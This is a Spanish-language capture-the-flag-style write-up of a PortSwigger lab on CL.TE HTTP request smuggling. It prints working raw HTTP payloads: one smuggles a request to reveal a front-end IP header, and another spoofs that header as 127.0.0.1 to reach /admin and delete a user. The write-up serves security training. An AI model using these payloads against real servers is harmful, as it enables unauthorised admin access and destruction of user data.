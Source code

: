 En esta clase aprendemos a aprovechar una vulnerabilidad de HTTP request smuggling para identificar cabeceras que el servidor front-end añade a las peticiones entrantes. Estas cabeceras pueden determinar el acceso a zonas restringidas, como el panel de administración.

Primero, utilizamos un ataque de tipo CL.TE para inyectar una petición secundaria y observar cómo el front-end reescribe el tráfico. Al examinar la respuesta del back-end, logramos identificar la cabecera que transporta la IP del cliente. Luego, reproducimos el ataque incluyendo esta cabecera manualmente con el valor 127.0.0.1, lo que nos permite acceder al panel /admin.

Finalmente, modificamos la petición smuggled para apuntar a ‘**/admin/delete?username=carlos**‘, logrando así eliminar al usuario objetivo y resolver el laboratorio.

Solucion
en este caso vamos a interceptar el input que ponemos en la parte principal de la pagina esto se hace poniendo cual quiercosa en la barra de busquedad
![Pasted_image_20250807210951.png](Imagenes/Pasted_image_20250807210951.png)
lo interceptamos esta ves solo ponemos el http1.1
Entonces lo primero seria poner esta peticion para poder sacar una cabecera que es la que nos llevara a /admin
(POST / HTTP/1.1

Host: 0a5e007e041839cb80d0534500f30052.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 56

Transfer-Encoding: chunked



0



POST / HTTP/1.1

Content-Length: 200



search=test)
y esto se veria asi
![Pasted_image_20250807213247.png](Imagenes/Pasted_image_20250807213247.png)
Y si nosotros no podemos ver la cabecera como en forma de error en el render solamente actualizamos la pagina principal para pdoer visualizarlo
![Pasted_image_20250807213343.png](Imagenes/Pasted_image_20250807213343.png)
y ya al final lo adaptmaos a nuestro payload final
doble send y con esto terminamos
![Pasted_image_20250807213709.png](Imagenes/Pasted_image_20250807213709.png)
Payload(POST / HTTP/1.1

Host: 0a5e007e041839cb80d0534500f30052.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 106

Transfer-Encoding: chunked



0



GET /admin/delete?username=carlos HTTP/1.1

X-ppcVGN-Ip: 127.0.0.1

Content-Length: 13



search=test)